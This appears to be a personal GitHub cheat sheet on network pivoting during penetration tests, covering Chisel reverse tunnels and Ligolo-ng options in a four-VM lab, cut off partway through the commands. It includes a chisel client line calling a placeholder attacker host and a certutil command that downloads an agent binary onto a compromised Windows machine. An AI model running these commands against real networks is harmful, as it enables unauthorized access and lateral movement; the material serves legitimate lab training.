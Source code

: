 ```bash

#NORMALE MODE 
# (anythig  come to:4444)  --> Victim (localhost:5555)--> (Chisel Reverse Tunnel)
#---> back to attacker:4444
chisel client <ATTACKER_IP>:8000 0.0.0.0:4444:<Victimr_IP>:5555


``` 

### logolo-ng 

```bash
#Pivoting with Ligolo-ng  
https://freedium.cfd/https://medium.com/@issam.qsous/mastering-multi-pivot-strategies-unleashing-ligolo-ngs-power-double-triple-and-even-quadruple-dca6b24c404c

- **Pivoting**: Use compromised systems to access otherwise unreachable networks.  
- **Tunnels**: Create secure connections to bypass network restrictions.  

## Ligolo-ng Overview  
- Establishes tunnels with **reverse TCP/TLS** using a tun interface (no need for SOCKS or proxychains).  
- Components:  
  - **Proxy**: Runs on your local machine to receive connections from compromised systems.  
  - **Agent**: Deployed on the target machine for command execution.  

## Key Options  

### Proxy Options:  
- `-laddr`: Listening address (default `0.0.0.0:11601`).  
- `-selfcert`: Generate self-signed certificates dynamically.  
- `-v`: Enable verbose mode.  

### Agent Options:  
- `-connect`: Target (domain:port).  
- `-retry`: Auto-retry on error.  
- `-socks`: SOCKS5 proxy settings (optional).  
- `-ignore-cert`: Ignore TLS certificate validation (for debugging only).  

## Lab Setup  
- Created 4 Virtual Networks with different **subnets**.  
- Configured **4 Windows VMs**, each connected to multiple subnets.  
- **Attacker Machine (Kali)** connected to `192.168.232.0`.  

### Subnet Connections  
1. **kali**: `192.168.232.153/24`  
1. **Ligolo-1**: `192.168.232.0` & `192.168.8.0`  
2. **Ligolo-2**: `192.168.119.0` & `192.168.8.0`  
3. **Ligolo-3**: `192.168.119.0` & `192.168.79.0`  
4. **Ligolo-4**: `192.168.21.0` & `192.168.79.0`  


### Ligolo-ng Pivoting Commands Cheat Sheet  

################################################
1. `Ligolo-1`: `192.168.232.133` & `192.168.8.129` 
################################################
#1.Upload Ligolo Agent on The Compromised Machine
`python -m http.server # on attcker machine`

`certutil.exe -urlcache -f "http://192.168.232.153:8000/agent.exe" agent.exe` #on Ligolo-1

#2.Setup Tun Interface on Kali:
```